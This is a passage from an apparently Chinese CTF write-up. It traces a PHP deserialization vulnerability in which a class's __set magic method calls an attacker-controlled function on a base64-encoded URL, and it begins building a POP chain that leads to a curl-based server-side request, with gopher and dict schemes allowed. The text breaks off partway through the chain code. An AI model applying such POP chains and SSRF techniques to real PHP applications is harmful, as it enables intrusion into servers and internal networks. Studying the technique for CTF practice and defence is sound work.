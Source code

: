 ```php
class Er
{
    public function __set($name, $value)
    {
        if (preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/', base64_decode($this->Flag))) {
            $value($this->Flag);
        } else {
            echo "NoNoNo,please you can look hint.php" . "</br>";
        }
    }
}
```

发现`Er`类的`__set`可利用，则继续跟进，`$value`已经被赋值为`get`，那么这里就代表着调用了外部的`get`方法,`get($this->Flag);`,且要求`base64`解码后的`$this->Flag`满足`'/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/'`的正则表达式

构造`pop`链

```php
<?php
class Rd
{
    public $ending;
    public $cl;

    public $poc;

}

class Poc
{
    public $payload;

    public $fun;

}

class Er
{
    public $symbol;
    public $Flag;

}

class Ha
{
    public $start;
    public $start1;
    public $start2;

}

function get($url)
{
    $url = base64_decode($url);
    var_dump($url);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    $output = curl_exec($ch);
    $result_info = curl_getinfo($ch);
    var_dump($result_info);
```
